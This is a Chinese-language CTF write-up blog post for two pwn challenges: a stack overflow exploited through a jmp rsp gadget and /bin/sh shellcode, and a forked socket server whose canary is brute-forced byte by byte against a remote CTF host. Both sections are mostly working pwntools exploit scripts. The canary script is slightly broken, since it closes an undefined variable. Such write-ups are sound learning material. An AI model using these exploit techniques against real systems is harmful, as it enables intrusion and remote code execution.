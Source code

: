 ```yaml
---
layout: post
title: "pearl and hsc"
date: 2024-3-9
tags: [pwn]
comments: true
author: gbeefee
---
```


#### *pearl*

#### *hsc*ctf

###### stack

非常明显的栈溢出，但是给的后门是jmp_rsp，当时怎么不理解这么一个后门该如何利用，看了其他师傅的wp，现在总算明白了。jmp_rsp是把函数的栈帧执行rsp的位置，为了利用这个后门，我们要修改栈顶为我们写入的shellcode，再次执行jmp_rsp,程序就会自动执行shellcode。所以payload就是:

```shellcode.ljust(0x20,b'a')+p64(0)+p64(gift_addr)+asm('sub rsp,0x30;jmp rsp')```

执行逻辑是：程序ret后rdi指向后门函数，接着rsp自减0x30，指向布置好的shellcode，jmp_rsp，使rdi指向rsp，使程序执行shellcode。

```
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
io=process('./stack')
shellcode=b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

gift_addr=0x40063b

payload1=shellcode.ljust(0x20,b'a')+p64(0)+p64(gift_addr)+asm('sub rsp,0x30;jmp rsp')

io.sendlineafter("secret...",payload1)

io.interactive()
```

###### pwn1

程序使用了socket实现接口通信，当时本地调试这个程序运行不了（？），一半就不动了...可能是本地环境问题吧。根据网上其他wp的说法，由于链接程序的程序是子程序，崩溃时不影响主程序，直接爆破canary就可以。



```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
#io=process("./pwn01")
def get_canary():
    canary = b'\x00'
    while len(canary) < 8:
        for x in range(256):
            io = remote('111.180.204.186', 12051)
            io.recv()
            io.send(b'a' * 104 + canary + bytes([x]))

            try:
                io.recv()
                canary += bytes([x])
                break
            except:
                pass
            finally:
                r.close()
    return canary

canary = get_canary()

pwn = 0x400b8e
payload = b'a' * 104 + canary + b'a' * 8 + p64(pwn)
io.send(payload)

io.interactive()
```

